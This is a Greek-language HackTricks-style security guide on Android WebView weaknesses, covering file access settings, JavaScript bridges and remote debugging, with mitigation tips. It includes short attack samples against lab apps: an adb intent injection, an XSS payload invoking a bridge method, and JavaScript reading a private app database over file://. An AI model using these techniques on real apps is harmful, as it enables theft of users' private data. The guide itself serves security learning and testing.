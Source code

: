 # Webview Attacks

{{#include ../../banners/hacktricks-training.md}}

## Οδηγός για τις Ρυθμίσεις και την Ασφάλεια του WebView

### Επισκόπηση των Ευπαθειών του WebView

Ένας κρίσιμος τομέας της ανάπτυξης Android περιλαμβάνει τη σωστή διαχείριση των WebViews. Αυτός ο οδηγός επισημαίνει βασικές ρυθμίσεις και πρακτικές ασφάλειας για τη μείωση των κινδύνων που σχετίζονται με τη χρήση του WebView.

![WebView Example](<../../images/image (1190).png>)

### **Πρόσβαση σε Αρχεία στα WebViews**

Από προεπιλογή, τα WebViews επιτρέπουν την πρόσβαση σε αρχεία. Αυτή η λειτουργία ελέγχεται από τη μέθοδο `setAllowFileAccess()`, διαθέσιμη από το επίπεδο API 3 (Cupcake 1.5) του Android. Οι εφαρμογές με την άδεια **android.permission.READ_EXTERNAL_STORAGE** μπορούν να διαβάζουν αρχεία από εξωτερική αποθήκευση χρησιμοποιώντας ένα σχήμα URL αρχείου (`file://path/to/file`).

#### **Καταργημένες Λειτουργίες: Καθολική και Πρόσβαση σε Αρχεία Από URLs**

- **Καθολική Πρόσβαση Από URLs Αρχείων**: Αυτή η καταργημένη λειτουργία επέτρεπε διασυνοριακά αιτήματα από URLs αρχείων, θέτοντας σημαντικό κίνδυνο ασφάλειας λόγω πιθανών επιθέσεων XSS. Η προεπιλεγμένη ρύθμιση είναι απενεργοποιημένη (`false`) για εφαρμογές που στοχεύουν το Android Jelly Bean και νεότερες εκδόσεις.
- Για να ελέγξετε αυτή τη ρύθμιση, χρησιμοποιήστε `getAllowUniversalAccessFromFileURLs()`.
- Για να τροποποιήσετε αυτή τη ρύθμιση, χρησιμοποιήστε `setAllowUniversalAccessFromFileURLs(boolean)`.
- **Πρόσβαση σε Αρχεία Από URLs Αρχείων**: Αυτή η λειτουργία, επίσης καταργημένη, ελέγχει την πρόσβαση σε περιεχόμενο από άλλα URLs σχήματος αρχείου. Όπως και η καθολική πρόσβαση, η προεπιλεγμένη ρύθμιση είναι απενεργοποιημένη για αυξημένη ασφάλεια.
- Χρησιμοποιήστε `getAllowFileAccessFromFileURLs()` για να ελέγξετε και `setAllowFileAccessFromFileURLs(boolean)` για να ρυθμίσετε.

#### **Ασφαλής Φόρτωση Αρχείων**

Για να απενεργοποιήσετε την πρόσβαση στο σύστημα αρχείων ενώ εξακολουθείτε να έχετε πρόσβαση σε περιουσιακά στοιχεία και πόρους, χρησιμοποιείται η μέθοδος `setAllowFileAccess()`. Με το Android R και άνω, η προεπιλεγμένη ρύθμιση είναι `false`.

- Ελέγξτε με `getAllowFileAccess()`.
- Ενεργοποιήστε ή απενεργοποιήστε με `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Η κλάση **WebViewAssetLoader** είναι η σύγχρονη προσέγγιση για τη φόρτωση τοπικών αρχείων. Χρησιμοποιεί http(s) URLs για την πρόσβαση σε τοπικά περιουσιακά στοιχεία και πόρους, ευθυγραμμισμένη με την πολιτική Same-Origin, διευκολύνοντας έτσι τη διαχείριση CORS.

### loadUrl

Αυτή είναι μια κοινή λειτουργία που χρησιμοποιείται για τη φόρτωση αυθαίρετων URLs σε ένα webview:
```java
webview.loadUrl("<url here>")
```
Φυσικά, ένας πιθανός επιτιθέμενος δεν θα πρέπει ποτέ να μπορεί να **ελέγξει το URL** που θα φορτώσει μια εφαρμογή.

### **JavaScript και Διαχείριση Σχεδίου Intent**

- **JavaScript**: Απενεργοποιημένο από προεπιλογή σε WebViews, μπορεί να ενεργοποιηθεί μέσω του `setJavaScriptEnabled()`. Συνιστάται προσοχή καθώς η ενεργοποίηση του JavaScript χωρίς κατάλληλες προστασίες μπορεί να εισάγει ευπάθειες ασφαλείας.
- **Σχέδιο Intent**: Τα WebViews μπορούν να διαχειριστούν το σχέδιο `intent`, ενδεχομένως οδηγώντας σε εκμεταλλεύσεις αν δεν διαχειριστούν προσεκτικά. Ένα παράδειγμα ευπάθειας περιλάμβανε μια εκτεθειμένη παράμετρο WebView "support_url" που θα μπορούσε να εκμεταλλευτεί για την εκτέλεση επιθέσεων cross-site scripting (XSS).

![Vulnerable WebView](<../../images/image (1191).png>)

Παράδειγμα εκμετάλλευσης χρησιμοποιώντας adb:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Javascript Bridge

Μια δυνατότητα παρέχεται από το Android που επιτρέπει στο **JavaScript** σε ένα WebView να καλεί **λειτουργίες εγγενών εφαρμογών Android**. Αυτό επιτυγχάνεται με τη χρήση της μεθόδου `addJavascriptInterface`, η οποία ενσωματώνει το JavaScript με τις εγγενείς λειτουργίες του Android, που ονομάζεται _WebView JavaScript bridge_. Συνιστάται προσοχή καθώς αυτή η μέθοδος επιτρέπει σε όλες τις σελίδες εντός του WebView να έχουν πρόσβαση στο καταχωρημένο αντικείμενο JavaScript Interface, θέτοντας σε κίνδυνο την ασφάλεια αν ευαίσθητες πληροφορίες εκτεθούν μέσω αυτών των διεπαφών.

- **Απαιτείται ακραία προσοχή** για εφαρμογές που στοχεύουν σε εκδόσεις Android κάτω από 4.2 λόγω μιας ευπάθειας που επιτρέπει την απομακρυσμένη εκτέλεση κώδικα μέσω κακόβουλου JavaScript, εκμεταλλευόμενη την αντανάκλαση.

#### Implementing a JavaScript Bridge

- **JavaScript interfaces** μπορούν να αλληλεπιδρούν με τον εγγενή κώδικα, όπως φαίνεται στα παραδείγματα όπου μια μέθοδος κλάσης εκτίθεται στο JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- Η γέφυρα JavaScript ενεργοποιείται προσθέτοντας μια διεπαφή στο WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge")
webView.reload()
```
- Πιθανή εκμετάλλευση μέσω JavaScript, για παράδειγμα, μέσω μιας επίθεσης XSS, επιτρέπει την κλήση εκτεθειμένων Java μεθόδων:
```html
<script>
alert(javascriptBridge.getSecret())
</script>
```
- Για να μετριαστούν οι κίνδυνοι, **περιορίστε τη χρήση της γέφυρας JavaScript** στον κώδικα που αποστέλλεται με το APK και αποτρέψτε τη φόρτωση JavaScript από απομακρυσμένες πηγές. Για παλαιότερες συσκευές, ορίστε το ελάχιστο επίπεδο API σε 17.

### Εκτέλεση Κώδικα μέσω Αντανάκλασης (RCE)

- Μια τεκμηριωμένη μέθοδος επιτρέπει την επίτευξη RCE μέσω αντανάκλασης εκτελώντας ένα συγκεκριμένο payload. Ωστόσο, η αναγνώριση `@JavascriptInterface` αποτρέπει την μη εξουσιοδοτημένη πρόσβαση σε μεθόδους, περιορίζοντας την επιφάνεια επίθεσης.

### Απομακρυσμένη Εντοπισμός Σφαλμάτων

- **Απομακρυσμένος εντοπισμός σφαλμάτων** είναι δυνατός με τα **Chrome Developer Tools**, επιτρέποντας την αλληλεπίδραση και την αυθαίρετη εκτέλεση JavaScript μέσα στο περιεχόμενο του WebView.

#### Ενεργοποίηση Απομακρυσμένου Εντοπισμού Σφαλμάτων

- Ο απομακρυσμένος εντοπισμός σφαλμάτων μπορεί να ενεργοποιηθεί για όλα τα WebViews εντός μιας εφαρμογής με:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Για να ενεργοποιήσετε την αποσφαλμάτωση με βάση την κατάσταση αποσφαλμάτωσης της εφαρμογής:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Εξαγωγή αυθαίρετων αρχείων

- Δείχνει την εξαγωγή αυθαίρετων αρχείων χρησιμοποιώντας ένα XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText)
}
}
xhr.open(
"GET",
"file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
true
)
xhr.send(null)
```
## Αναφορές

- [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
- [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
- [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
- [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
- [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{{#include ../../banners/hacktricks-training.md}}

